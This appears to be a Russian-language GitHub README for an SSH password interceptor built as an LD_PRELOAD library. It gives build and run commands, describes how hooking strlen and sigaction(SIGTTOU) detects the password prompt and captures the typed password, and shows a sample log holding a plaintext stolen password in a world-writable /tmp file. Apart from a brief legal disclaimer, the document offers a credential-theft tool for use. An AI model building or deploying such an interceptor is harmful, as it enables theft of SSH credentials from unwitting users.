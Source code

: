 # SSH Password Interceptor

Библиотека для перехвата паролей SSH-клиента при помощи LD_PRELOAD.

## Быстрый старт

### Клонирование репозитория

```bash
# Клонирование репозитория
git clone https://github.com/Personaz1/ScrScr.git

# Переход в директорию проекта
cd ScrScr
```

### Установка и использование

```bash
# Компиляция
make

# Создание лог-файла
touch /tmp/ssh_inj.dbg
chmod 666 /tmp/ssh_inj.dbg

# Использование перехватчика
LD_PRELOAD=./libssh_inject.so ssh user@server
```

## Описание

Библиотека перехватывает функции `strlen`, `sigaction` и `exit` для отслеживания процесса ввода пароля SSH-клиентом. 
Используется машина состояний для определения момента, когда пользователь вводит пароль.

## Содержимое проекта

- `state.hpp` - Основная логика перехвата, машина состояний
- `ssh_inject.cpp` - Реализация перехвата системных функций
- `Makefile` - Файл сборки проекта
- `install.sh` - Скрипт установки библиотеки
- `uninstall.sh` - Скрипт удаления библиотеки
- `quick_test.sh` - Скрипт быстрого тестирования
- `README.md` - Документация по проекту

## Требования

- Linux-система с glibc
- Компилятор g++ с поддержкой C++11
- Утилита make
- Права root для установки (опционально)

## Установка

Локальное использование (не требует root-прав):

```bash
# Компилируем
make

# Создаем файл для логов
touch /tmp/ssh_inj.dbg
chmod 666 /tmp/ssh_inj.dbg

# Запускаем ssh с предзагрузкой библиотеки
LD_PRELOAD=./libssh_inject.so ssh user@server
```

## Использование

Запуск SSH с перехватом:

```bash
LD_PRELOAD=./libssh_inject.so ssh user@server
```

Захваченные пароли сохраняются в файле `/tmp/ssh_inj.dbg`.

## Тестирование

Для быстрого тестирования библиотеки используйте скрипт:
```bash
./quick_test.sh
```

Скрипт автоматически:
1. Скомпилирует библиотеку
2. Подготовит лог-файл
3. Запустит тестовое подключение к localhost
4. Проверит захват пароля

## Просмотр логов

```bash
cat /tmp/ssh_inj.dbg
```

Пример содержимого лога:
```
AUTH: pid=123456, user=root, cmdline=ssh user@server
[ + ] Injection started
... Password prompt detected
... sigaction(SIGTTOU) detected
... Password captured via strlen: "password123"
[ + ] Captured:
    Date: Sun Dec 31 23:59:59 2023
    User: root
    Cmdline: ssh user@server
    Password: "password123"
    Succeeded: 1
----
```

## Особенности работы

Библиотека использует следующую последовательность для перехвата:
1. Обнаружение промпта "assword:" через `strlen`
2. Обнаружение вызова `sigaction(SIGTTOU)`
3. Захват следующего вызова `strlen` как пароля
4. Определение успешности авторизации

## Удаление

Для удаления:

```bash
# Удаление лог-файла
rm -f /tmp/ssh_inj.dbg

# Удаление скомпилированных файлов
make clean
```

## Примечание по безопасности

Данный инструмент предназначен исключительно для тестирования систем безопасности и образовательных целей.
Использование без разрешения владельца системы может нарушать законодательство.

## Лицензия

Проект распространяется под лицензией [MIT](LICENSE). Вы можете свободно использовать, модифицировать и распространять этот код, при условии сохранения информации об авторских правах. 
